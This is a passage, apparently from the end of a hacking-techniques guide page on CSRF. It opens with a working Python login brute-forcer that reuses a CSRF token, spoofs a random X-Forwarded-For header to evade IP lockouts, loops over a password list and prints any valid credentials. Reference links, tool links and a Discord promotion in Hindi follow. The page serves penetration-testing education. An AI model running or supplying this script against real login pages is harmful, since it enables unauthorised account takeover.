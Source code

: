 ```python
data = {
"tokenCSRF": csrf,
"username": user,
"password": password,
"save": ""
}
headers = {
"X-Forwarded-For": f"{random.randint(1,256)}.{random.randint(1,256)}.{random.randint(1,256)}.{random.randint(1,256)}"
}
r = requests.post(URL, data=data, cookies=cookies, headers=headers, proxies=PROXY)
if "Username or password incorrect" in r.text:
return False
else:
print(f"FOUND {user} : {password}")
return True

with open(PASS_LIST, "r") as f:
for line in f:
login(USER, line.strip())
```
## Tools <a href="#tools" id="tools"></a>

* [https://github.com/0xInfection/XSRFProbe](https://github.com/0xInfection/XSRFProbe)
* [https://github.com/merttasci/csrf-poc-generator](https://github.com/merttasci/csrf-poc-generator)

## References

* [https://portswigger.net/web-security/csrf](https://portswigger.net/web-security/csrf)
* [https://portswigger.net/web-security/csrf/bypassing-token-validation](https://portswigger.net/web-security/csrf/bypassing-token-validation)
* [https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses)
* [https://www.hahwul.com/2019/10/bypass-referer-check-logic-for-csrf.html](https://www.hahwul.com/2019/10/bypass-referer-check-logic-for-csrf.html)

​

<figure><img src="../.gitbook/assets/image (380).png" alt=""><figcaption></figcaption></figure>

Join [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) server to communicate with experienced hackers and bug bounty hunters!

**Hacking Insights**\
हैकिंग की रोमांचक और चुनौतियों में गहराई से जाने वाली सामग्री के साथ जुड़ें

**Real-Time Hack News**\
तेज-तर्रार हैकिंग दुनिया के साथ वास्तविक समय की समाचार और अंतर्दृष्टि के माध्यम से अद्यतित रहें

**Latest Announcements**\
नवीनतम बग बाउंटी लॉन्च और महत्वपूर्ण प्लेटफ़ॉर्म अपडेट के साथ सूचित रहें
